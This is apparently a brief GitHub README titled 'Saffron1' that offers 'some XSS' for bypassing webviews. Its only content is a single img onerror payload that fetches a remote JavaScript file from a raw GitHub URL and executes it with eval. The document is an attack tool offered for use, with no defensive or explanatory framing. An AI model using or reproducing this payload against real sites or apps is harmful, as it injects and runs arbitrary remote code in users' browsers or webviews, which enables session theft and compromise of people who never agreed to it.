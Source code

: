 # Saffron1
## Some XSS that can be used for multiple webview bypasses.
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/SaffronA1/Saffron/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```
